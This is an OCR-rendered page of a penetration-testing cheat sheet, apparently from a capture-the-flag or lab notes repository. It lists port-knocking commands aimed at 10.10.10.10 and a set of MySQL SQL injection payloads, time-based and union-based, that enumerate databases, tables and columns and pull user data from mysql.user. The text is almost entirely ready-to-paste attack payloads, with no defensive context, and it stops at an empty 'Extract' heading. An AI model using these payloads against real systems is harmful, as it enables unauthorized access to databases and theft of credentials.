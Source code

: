 # B. Tools/Techniques

### Port Knocking

```bash
# Commands
knocker.py -p 8890,7000,666 10.10.10.10
for i in 571 290 911;do nmap -n -v0 -Pn --max-retries 0 -p $i 10.10.10.10;done
knock 10.10.10.10 7000:666:8890

# Permutation (Port)
python -c 'import itertools; print list(itertools.permutations(\[8890,7000,666\]))' | sed 's/), /\\n/g' | tr -cd '0-9,\\n' | sort | uniq > permutation.txt

```

### SQL Injection

```bash
[MYSQL]
## Get Current Database
database()

## Get Database
UNION SELECT table_schema FROM information_schema.tables

## Get Table Name
UNION SELECT table_name FROM information_schema.tables WHERE table_schema == "database"

## Get Column Name
UNION SELECT table_name, column_name FROM information_schema.columns

###===Time Based===
## Get Database
(SELECT sleep(5) from dual where substring(database(),1,1)='h') 
(SELECT sleep(5) from dual where substring(database(),2,1)='h') 

## Get Tables
(SELECT sleep(5) from information_schema.tables where table_name LIKE '%hotel%')

## Get Columns
(SELECT sleep(5) from information_schema.columns where column_name LIKE '%room%' AND table_name='hotel')

## Extract
IF((select MID(user,1,1) from mysql.user limit 0,1)='D' , sleep(5),0)

## Extra
(select IF(500>1000, "nothing", sleep(5)))

###===Union Based===
## Get Database
9999 union select 1,database(),3,4,5

## Get Tables
9999 union select 1,group_concat(table_name),3,4,5 from information_schema.tables where table_schema like "%hotel%"

## Get Columns
9999 union select 1, group_concat(column_name),3,4,5 from information_schema.columns where table_name like "%room%" 

## Extract
```
